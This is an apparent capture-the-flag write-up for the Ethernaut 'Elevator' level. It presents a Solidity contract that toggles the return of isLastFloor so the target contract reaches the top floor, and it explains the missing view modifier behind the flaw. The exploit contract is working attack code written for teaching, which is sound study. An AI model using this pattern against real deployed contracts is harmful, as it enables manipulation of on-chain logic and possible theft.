 # [Elevator](https://ethernaut.openzeppelin.com/level/0xaB4F3F2644060b2D960b0d88F0a42d1D27484687)

In this level, we will write the `Builder` contract which the elevator interacts with. However, in the same transaction we will return opposite boolean results for `isLastFloor` function.

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;

interface Elevator {
  function goTo(uint _floor) external;    
}

contract Building {
  bool toggleMe = true;
  
  function isLastFloor(uint) external returns (bool) {
    toggleMe = !toggleMe;
    return toggleMe;
  }

  function callElevator(address _elevator) public {
    Elevator(_elevator).goTo(1);
  }

}
```

The problem here is that Elevator did not specify `isLastFloor` to be a `view` function, which would prevent us from modifying the state like this.

Another attack approach would be to return different results depending on the input data _without_ modifying state, such as via `gasLeft()`.
